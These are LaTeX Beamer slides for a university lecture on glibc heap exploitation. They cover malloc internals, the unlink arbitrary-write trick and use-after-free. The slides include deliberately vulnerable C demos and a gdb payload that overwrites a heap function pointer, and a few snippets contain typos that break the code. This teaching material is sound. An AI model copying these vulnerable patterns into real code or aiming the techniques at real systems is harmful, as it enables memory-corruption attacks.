% Created 2023-10-03 Tue 16:13
% Intended LaTeX compiler: lualatex
\documentclass[9pt,aspectratio=169]{beamer}
\usepackage{graphicx}
\usepackage{longtable}
\usepackage{wrapfig}
\usepackage{rotating}
\usepackage[normalem]{ulem}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{capt-of}
\usepackage{hyperref}
\usepackage{fontspec}
\usepackage{listings}
\lstset{basicstyle=\footnotesize,colums=flexible}
\setsansfont{HVD Comic Serif Pro}
\setmainfont{Comic Sans MS}
\setmonofont{ComicCodeLigatures}
\definecolor{UOBred}{rgb}{0.6706, 0.1216, 0.1765}
\setbeamercolor{palette primary}{bg=UOBred, fg=white}
\setbeamercolor{palette secondary}{bg=UOBred, fg=white}
\setbeamercolor{palette tertiary}{bg=UOBred, fg=white}
\setbeamercolor{palette quaternary}{bg=UOBred, fg=white}
\setbeamercolor{structure}{fg=UOBred}
\setbeamercolor{structure}{fg=UOBred}
\renewcommand{\alert}[1]{\textbf{#1}}
\usetheme{default}
\usefonttheme[stillsansseriflarge]{serif}
\author{Joseph Hallett}
\date{\today}
\title{Lecture 2: Heap overflows and the Malloc Maleficarum}
\titlegraphic{
\includegraphics[height=0.5cm]{bristol.png}}
\hypersetup{
 pdfauthor={Joseph Hallett},
 pdftitle={Lecture 2: Heap overflows and the Malloc Maleficarum},
 pdfkeywords={},
 pdfsubject={},
 pdfcreator={Emacs 29.1 (Org mode 9.7-pre)}, 
 pdflang={English}}
\begin{document}

\maketitle
\begin{frame}[label={sec:org9589f4e},fragile]{Recap}
 \begin{block}{Last time\ldots{}}
We went over some classic bug types, and gave a \emph{hint} about how to exploit them:
\begin{itemize}
\item We played around with some assembly in the lab
\end{itemize}
\end{block}
\begin{block}{This time\ldots{}}
We're going to move from the \emph{stack} to the heap and think about some of the bugs we can find over there.
\begin{itemize}
\item We're going to explore how \emph{Glibc's} implementation of \texttt{malloc} works and what we can do with it
\item Format string exploits in the lab!
\end{itemize}
\end{block}
\end{frame}
\begin{frame}[label={sec:org569aae3},fragile]{Warning!}
 \begin{block}{Here be dragons}
A lot of this stuff is highly system dependent and varies from architecture to architecture.
\begin{itemize}
\item It is conceptually \emph{fiddly} (and technically too!)
\item Even within a single system, there can be multiple heap implementations and memory management libraries in play
\begin{itemize}
\item Sometimes even within one application\ldots{}
\end{itemize}
\end{itemize}

I'm going to go \emph{high-level} and give you concepts and history
\begin{itemize}
\item When I \emph{do go} into more detail I'm going to try and focus on Linux and the GNU Libc
\item Other systems exist (and are radically different)
\item To understand in detail you need to read \emph{your} \texttt{malloc} implementation
\end{itemize}
\end{block}
\end{frame}
\begin{frame}[label={sec:org0437ea9},fragile]{So what's this all about?}
 \begin{block}{We'd like to create objects dynamically in memory}
This means we need to talk to the OS and ask it to give us more (and occasionally less) memory depending on our need.

POSIX gives us a set of standard system calls for doing this:
\begin{description}
\item[{\texttt{mmap}}] maps devices and files into a program's running memory.
\item[{\texttt{mprotect}}] lets us set usage policies about memory
\item[{\texttt{brk} \& \texttt{sbrk}}] \emph{(deprecated mostly)} for controlling how big the program data is
\end{description}

But system calls are really slow (generally)\ldots{}
\begin{itemize}
\item and we might want to create lots of objects dynamically
\item and not all OSs implement POSIX standards and API in the same way
\end{itemize}

\ldots{}and the C programming language is meant to be \emph{vaguely} portable\ldots{}
\end{block}
\end{frame}
\begin{frame}[label={sec:orgd39b94e},fragile]{\texttt{malloc} and \texttt{free}}
 Instead of going to the kernel every time we want to manage memory lets try and do it in userland!

When a program starts we'll give it a reasonable chunk of memory in its virtual address space, and an API for managing it.
\begin{itemize}
\item It can call the system calls \emph{if necessary}
\item We'll base it on a \emph{heap} datastructure and call it \emph{the heap}
\item We'll call it \texttt{malloc} and \texttt{free}
\end{itemize}
\begin{block}{By the way}
We call it \emph{the heap} but depending on the implementation it might not actually be a heap anymore.
\end{block}
\end{frame}
\begin{frame}[label={sec:orgb2e4b10},fragile]{Every OS has a slightly different \texttt{malloc} implementation}
 \begin{block}{Linux (Debian)}
\begin{lstlisting}[language=C,numbers=none]
#include <stdlib.h>

void *malloc(size_t size);
void free(void *ptr);
void *calloc(size_t nmemb, size_t size);
void *realloc(void *ptr, size_t size);
void *reallocarray(void *ptr, size_t nmemb, size_t size);
\end{lstlisting}
\end{block}
\end{frame}
\begin{frame}[label={sec:orgb15fc0e},fragile]{Every OS has a slightly different \texttt{malloc} implementation}
 \begin{block}{MacOS}
\begin{lstlisting}[language=C,numbers=none]
#include <stdlib.h>

void *
calloc(size_t count, size_t size);

void
free(void *ptr);

void *
malloc(size_t size);

void *
realloc(void *ptr, size_t size);

void *
reallocf(void *ptr, size_t size);

void *
valloc(size_t size);
\end{lstlisting}
\end{block}
\end{frame}
\begin{frame}[label={sec:orgca232fd},fragile]{Every OS has a slightly different \texttt{malloc} implementation}
 \begin{columns}
\begin{column}[t]{0.49\columnwidth}
\begin{lstlisting}[language=C,numbers=none]
#include <stdlib.h>

void *
malloc(size_t size);

void *
calloc(size_t nmemb, size_t size);

void *
realloc(void *ptr, size_t size);

void
free(void *ptr);

void *
reallocarray(void *ptr, size_t nmemb, size_t size);
\end{lstlisting}
\end{column}
\begin{column}[t]{0.49\columnwidth}
\begin{lstlisting}[language=C,numbers=none]
void *
recallocarray(void *ptr, size_t oldnmemb, size_t nmemb, size_t size);

void
freezero(void *ptr, size_t size);

void *
aligned_alloc(size_t alignment, size_t size);

void *
malloc_conceal(size_t size);

void *
calloc_conceal(size_t nmemb, size_t size);

char *malloc_options;
\end{lstlisting}
\end{column}
\end{columns}
\end{frame}
\begin{frame}[label={sec:orgac4a5b1},fragile]{Example time}
 \begin{columns}
\begin{column}[t]{0.49\columnwidth}
32-bit Linux, no ASLR.  Make it print \emph{"You win"} instead of \emph{"You lose"}\ldots{}

\begin{lstlisting}[language=C,numbers=none]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

struct data { char name[64]; };
struct fp { int  (*fp)(); };

int winner() { return printf("You win\n"); }
int nowinner() { return printf("You lose\n"); }

int main(int argc, char *argv[]) {
  struct data *d;
  struct fp *f;
\end{lstlisting}
\end{column}
\begin{column}[t]{0.49\columnwidth}
\begin{lstlisting}[language=C,numbers=none]
  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  printf("data is at %p\nfp is at %p\n", d, f);

  f->fp = nowinner;
  strcpy(d->name, argv[1]);
  f->fp();

  return 0;
}
\end{lstlisting}
\end{column}
\end{columns}
\end{frame}
\begin{frame}[label={sec:org21ca6fa},fragile]{Attack Start}
 \begin{lstlisting}[language=shell,numbers=none]
$ ./crackme hello
data is at 0x8db8008
fp is at 0x8db8050
You lose

$ nm ./crackme | grep winner
080484b4 T nowinner
0804849b T winner

$ gdb ./crackme
(gdb) run $(perl -e 'print "A"x128')
Starting program: /home/user/crackme $(perl -e 'print "A"x128')
data is at 0x804b008
fp is at 0x804b050

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ??()
\end{lstlisting}

Anyone want to solve it?
\end{frame}
\begin{frame}[label={sec:org6698d49},fragile]{Attack Complete}
 \begin{lstlisting}[language=shell,numbers=none]
$ gdb ./crackme
(gdb) run $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')
Starting program: /home/user/crackme $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')

data is at 0x804b008
fp is at 0x804b050
You win!
[Inferior 1 (process 1652) exited normally]
\end{lstlisting}
\end{frame}
\begin{frame}[label={sec:orga82686b},fragile]{What just happened?}
 The buffer and the function pointer were allocated sequentially on the heap.
\begin{itemize}
\item We overwrote the function pointer with \texttt{strcpy}
\begin{itemize}
\item Initially with \texttt{'A'} (\texttt{0x41}) to prove we had overwritten the right thing
\end{itemize}
\item Then more precisely with the address of the function we \emph{actually} wanted to call
\end{itemize}
\end{frame}
\begin{frame}[label={sec:orgd47d8dd},fragile]{\ldots{}underwhelming, much?}
 This is just a buffer overflow again, but in a slightly different location.

It isn't \alert{totally} unrealistic\ldots{}
\begin{itemize}
\item You could do OO programming in C like this with structs of function pointers,
\item (BTW C++ has its own allocation mechanisms, and typically won't use \texttt{malloc} internally\ldots{} do have a play!)
\end{itemize}

More generally\ldots{}
\begin{itemize}
\item Buffers exist on the heap
\item We can over (and under) flow them, as normal
\item Sometime; you hit something useful
\end{itemize}
\end{frame}
\begin{frame}[label={sec:org585b173},fragile]{Faces of \texttt{malloc}}
 \begin{columns}
\begin{column}[t]{0.49\columnwidth}
\begin{center}

\includegraphics[width=.8\linewidth]{./douglea.jpg}
\end{center}

Author of the first popular \texttt{malloc} implementation
\end{column}
\begin{column}[t]{0.49\columnwidth}
\begin{center}

\includegraphics[width=\linewidth]{./solardesigner.jpg}
\end{center}

First general heap overflow technique against GNU \texttt{malloc}
\end{column}
\end{columns}
\end{frame}
\begin{frame}[label={sec:org06eeade},fragile]{\texttt{maloc} internals}
 \begin{columns}
\begin{column}[t]{0.49\columnwidth}
\alert{Every} \texttt{malloc} implementation is different.
\begin{itemize}
\item I'm gonna try and keep this super high level…
\item To exploit a real malloc implementation you need to read the code and think
\end{itemize}

\begin{lstlisting}[language=C,numbers=none]
char *a = calloc(16 * sizeof(*a));
char *b = calloc(16 * sizeof(*b));
char *c = calloc(16 * sizeof(*c));

printf("Pointer Address\n");
printf("&a %p\n&b %p\n&c %p\n", a, b, c);
\end{lstlisting}
\end{column}
\begin{column}[t]{0.49\columnwidth}
\begin{center}
\begin{tabular}{ll}
Pointer & Address\\[0pt]
\hline
\texttt{a} & \texttt{0x1dce2a0}\\[0pt]
\texttt{b} & \texttt{0x1dce2c0}\\[0pt]
\texttt{c} & \texttt{0x1dce2e0}\\[0pt]
\end{tabular}
\end{center}

This gives us three pointers to memory allocated on the heap
\begin{itemize}
\item Lets have a look  what is there and whats in surrounding memory
\item Lets observe how it changes as we free the memory
\end{itemize}
\end{column}
\end{columns}
\end{frame}
\begin{frame}[label={sec:org218385f},fragile]{Zero \texttt{free()} s are\ldots{}}
 \begin{verbatim}
Initially:
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
\end{verbatim}
\end{frame}
\begin{frame}[label={sec:org88301fa},fragile]{Once \texttt{free()} is\ldots{}}
 \begin{verbatim}
free(a):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
\end{verbatim}
\end{frame}
\begin{frame}[label={sec:org40c50f5},fragile]{Two \texttt{free()s} are\ldots{}}
 \begin{verbatim}
free(b):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 6e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
\end{verbatim}
\end{frame}
\begin{frame}[label={sec:org8fd4eb2},fragile]{Three \texttt{free()s} are\ldots{}}
 \begin{verbatim}
free(c):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 6e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 0e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
\end{verbatim}
\end{frame}
\begin{frame}[label={sec:org84c4799},fragile]{But what does it mean?}
 When memory gets allocated (and deallocated) extra \emph{stuff} gets written to the heap.
\begin{itemize}
\item Some of it looks a bit pointer-y
\item Data gets written into the heap based on this data on a \texttt{free()}
\item \texttt{malloc()} is probably using it to work out where the free sections are
\end{itemize}
\end{frame}
\begin{frame}[label={sec:org31c472f},fragile]{An idea for some heap \emph{vudu}\ldots{}}
 Data is clearly being written by \texttt{malloc()} and its friends
\begin{itemize}
\item \emph{If} we have a buffer overflow in the heap\ldots{}
\item And \emph{if} we can overflow into these \texttt{malloc()} headers\ldots{}
\item Can we abuse it to get \texttt{free()} to write to an arbitrary pointer?
\begin{itemize}
\item (yes)
\end{itemize}
\end{itemize}
\end{frame}
\begin{frame}[label={sec:org0aa227b}]{How its meant to work\ldots{}}
\begin{description}
\item[{Memory starts out as a big \emph{arena}}] region of memory for the program's heap(s); shared among threads
\item[{Each \emph{heap}}] belongs to one arena and is divided into\ldots{}
\item[{\emph{Chunks}}] which are small ranges of memory that can be allocated from
\end{description}
\end{frame}
\begin{frame}[label={sec:org8a96934}]{So what was all that stuff on the heap?}
\begin{center}

\includegraphics[width=\linewidth]{./chunks.png}
\end{center}
\end{frame}
\begin{frame}[label={sec:orge1df077},fragile]{Tidying up}
 As memory gets used by your programs it gets more and more \emph{chunked} up.
\begin{itemize}
\item This causes problems!
\item What if you want to allocate a big chunk, but you've only got a load of little sequential free chunks?
\end{itemize}

To deal with this (under certain circumstances*) \texttt{free()} will merge chunks when releasing the memory.
\begin{itemize}
\item If the \texttt{bck} chunk is free\ldots{}
\item It'll go back and update the size to include both of them\ldots{}
\item and it'll update the \texttt{bck} chunk's \texttt{fwd} pointer to be this chunks \texttt{fwd} pointer\ldots{}
\item Merging the two chunks!
\item and it'll update the \texttt{fwd} chunk's \texttt{bck} pointer to be the new merged chunk.
\end{itemize}
\end{frame}
\begin{frame}[label={sec:org20d5d06},fragile]{Once upon a \texttt{free()}}
 \begin{lstlisting}[language=C,numbers=none]
  #define unlink(P, BK, FD) { \
  BK = P->bk;                 \
  FD = P->fd;                 \
  FD->bk = BK;                \
  BK->fd = FD;                \
}
\end{lstlisting}

\begin{itemize}
\item The \texttt{fwd} pointer's \texttt{bck} pointer is going to be set to the \texttt{bck} pointer
\item The \texttt{bck} pointer's \texttt{fwd} pointer is going to be set to the \texttt{fwd} pointer
\end{itemize}

\ldots{}but if everything is corrupted and we could set the \texttt{bck} pointer to be an address we want to overwrite,
\begin{itemize}
\item and set the \texttt{fwd} pointer to be the value we want to corrupt it with
\end{itemize}
\end{frame}
\begin{frame}[label={sec:org59d98d6},fragile]{Spaghetti!}
 \begin{block}{\ldots{}maybe?}
There are some tricks with creating fake chunks in memory and setting the \texttt{fwd} pointer to be a fake chunk to avoid segfaulting
\begin{itemize}
\item \ldots{}but thats the basics of it.
\item It gives you a one integer arbitrary write\ldots{}
\begin{itemize}
\item (which could be aimed at a stack return address).
\end{itemize}
\end{itemize}

Yes this is \emph{horrendously} fiddly, and nowadays the \texttt{free()} routine is patched to avoid this.
\begin{itemize}
\item But \emph{Solar Designer} used this technique to exploit the JPEG decoder in \emph{Netscape Navigator} (pre-Firefox Firefox) back in 2000.
\item And its the basis for many heap attacks going foreward.
\end{itemize}

See
\begin{description}
\item[{Anonymous's Once Upon a free()\ldots{}}] \url{http://phrack.org/issues/57/9.html}
\item[{Solar Designer's vulnerability notice}] \url{https://www.openwall.com/articles/JPEG-COM-Marker-Vulnerability}
\end{description}
\end{block}
\end{frame}
\begin{frame}[label={sec:orgb47ce97},fragile]{One more for luck: Use after \texttt{free()}}
 Suppose we have a pointer to a \texttt{malloc}'d region\ldots{}

And then we free it\ldots{}

But the pointer sticks around and is still used
\begin{block}{Can we use this for tricksy magic?}
\end{block}
\end{frame}
\begin{frame}[label={sec:org67ca7e7}]{Recycling chunks}
Once a chunk has been used, it is released back into the free pool.
\begin{itemize}
\item Which means a process can reuse that memory for future allocations.
\end{itemize}
\end{frame}
\begin{frame}[label={sec:orge5e2df1},fragile]{Ruh-roh}
 \begin{columns}
\begin{column}[t]{0.49\columnwidth}
\begin{lstlisting}[language=C,numbers=none]
#include <stdio.h>
#include <stdlib.h>
void you_win() { printf("You win!\n"); }
void you_lose() { printf("You lose!\n"); }
typedef struct { void (*method)(); } Classy_Thing;
int main(void) {
  char *buffer1 = mmlloc(BUFSIZ);
  char *buffer2 = malloc(BUFSIZ);
  free(buffer2);
  Classy_Thing *thing = malloc(sizeof(Classy_Thing));
  thing->method = you_lose;
  printf("you_win %p\nyou_lose %p\n", you_win, you_lose);
  printf("buffer1 %p\nbuffer2 %p\n", buffer1, buffer2);
  printf("thing %p\n", thing);
  scanf("%" BUFSIZ "s", buffer2);
  thing->method();
}
\end{lstlisting}
\end{column}
\begin{column}[t]{0.49\columnwidth}
\begin{verbatim}
make use-after-free
./use-after-free 
\end{verbatim}

\begin{center}
\begin{tabular}{ll}
\texttt{you\_win} & \texttt{0x0401176}\\[0pt]
\texttt{you\_lose} & \texttt{0x0401187}\\[0pt]
\texttt{buffer1} & \texttt{0x13602a0}\\[0pt]
\texttt{buffer2} & \texttt{0x13622b0}\\[0pt]
\texttt{thing} & \texttt{0x13622b0}\\[0pt]
\end{tabular}
\end{center}
\end{column}
\end{columns}
\end{frame}
\begin{frame}[label={sec:orgee2ddaa},fragile]{Recap}
 \begin{block}{What we've covered today}
\begin{description}
\item[{Trivial heap overflow}] you might hit something useful.
\item[{Once upon a \texttt{free()}\ldots{}}] spaghetti with pointers can lead to an arbitrary write
\item[{Use after \texttt{free()}}] pointers hang around sometimes
\end{description}
\end{block}
\begin{block}{How do we stop this?}
Kind of an open question.
\begin{itemize}
\item Maybe don't let developers have pointers?
\item Maybe add more randomness (but randomness is expensive)
\item Fine-grained memory protections \emph{(coming soon)}
\end{itemize}
\end{block}
\begin{block}{Next time\ldots{}}
In the lab:
\begin{itemize}
\item Buffer overflows and shellcode
\end{itemize}

Next lecture:
\begin{itemize}
\item Return Oriented Programming
\end{itemize}
\end{block}
\end{frame}
\begin{frame}[label={sec:orgd35f6fd},fragile]{Malloc Maleficarum}
 \begin{block}{Further reading}
Start with in \emph{Phrack}:
\begin{itemize}
\item \href{http://phrack.org/issues/57/8.html\#article}{Vudu malloc tricks (Michel "MaXX" Kaempf)}
\item \href{http://phrack.org/issues/57/9.html}{Once upon a free (anonymous)}
\end{itemize}

And then go read \href{https://seclists.org/bugtraq/2005/Oct/118}{The Malloc Maleficarum} by \emph{Phantasmal Phantasmagoria}.
\begin{itemize}
\item 5 \texttt{malloc} based heap exploitation techniques
\item 1 poem
\item Excellent hacker gibberish!
\end{itemize}

\begin{verse}
Am I a hacker? No.\\[0pt]
I am a student of virtuality.\\[0pt]
I am the witch malloc,\\[0pt]
I am the cult of the otherworld,\\[0pt]
and I am the entropy.\\[0pt]
I am Phantasmal Phantasmagoria,\\[0pt]
and I am a virtual adept.\\[0pt]
\end{verse}
\end{block}
\end{frame}
\end{document}